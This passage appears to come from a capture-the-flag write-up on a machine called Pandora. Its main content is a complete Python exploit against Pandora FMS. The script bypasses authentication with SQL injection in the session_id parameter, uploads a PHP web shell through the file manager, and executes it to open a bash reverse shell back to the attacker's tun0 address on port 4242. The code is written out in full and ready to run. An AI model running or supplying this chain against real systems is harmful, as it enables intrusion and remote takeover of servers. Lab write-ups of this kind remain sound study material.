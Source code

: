 ![](/assets/img/posts/pandora/pandora-file-upload.png)

If you intercept file upload request you will found upload location is `/var/www/pandora/pandora_console/images` that means `/pandora_console/images` from web server.


We have done so much and here is the python presentation of it
```py
import requests
import netifaces as ni

base_path = "http://127.0.0.1/pandora_console"
tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
rev = f"<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/{tun0_ip}/4242 0>&1'\"); ?>"
s = requests.Session()
s.proxies = {"http": "socks5://127.0.0.1:4141"}
sqli = "/include/chart_generator.php?session_id=1' union select '1','2','id_usuario|s:5:\"admin\";' -- -"
sess = s.post(base_path + sqli)
if "Pandora FMS Graph ( - )" in sess.text:
    print("[ + ] Logged in!")
    file_ = {'file': ("shell.php", rev, 'application/x-php'),
             'umask': (None, None),
             'decompress_sent': (None, 1),
             'go': (None, 'Go'),
             'real_directory': (None, '/var/www/pandora/pandora_console/images'),
             'directory': (None, 'images'),
             'hash': (None, '6427eed956c3b836eb0644629a183a9b'),
             'hash2': (None, '594175347dddf7a54cc03f6c6d0f04b4'),
             'upload_file_or_zip': (None, 1)}
    shell_upload = s.post(base_path + "/index.php?sec=gsetup&sec2=godmode/setup/file_manager", files=file_)
    if "Uploaded successfully" in shell_upload.text:
        print("[ + ] Great. PHP script uploaded... Now going to execute for you...")
        try:
            f = s.get(base_path + '/images/shell.php', timeout=0.0001)
            print(f.text)
        except requests.exceptions.ReadTimeout:
            pass
    else:
        print("[ - ] Failed to upload PHP script...")
        print(shell_upload.text)
```